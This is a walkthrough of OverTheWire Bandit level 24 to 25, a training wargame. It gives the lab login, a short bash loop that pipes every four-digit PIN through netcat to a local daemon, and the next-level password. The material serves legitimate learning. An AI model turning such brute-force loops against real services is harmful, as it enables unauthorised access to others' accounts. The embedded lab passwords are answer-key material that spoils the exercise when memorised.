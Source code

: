 # Level 24 → Level 25

## Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## Solution
```
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
```
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```
```
vim /tmp/myScript.sh
```
Copy & Paste the next script:
```sh
#!/bin/bash

(
for i in {0000..9999}
do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
) | nc localhost 30002
```
```
chmod +x /tmp/myScript.sh
```
```
/tmp/myScript.sh
```

## Password for the next level
```
p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d
```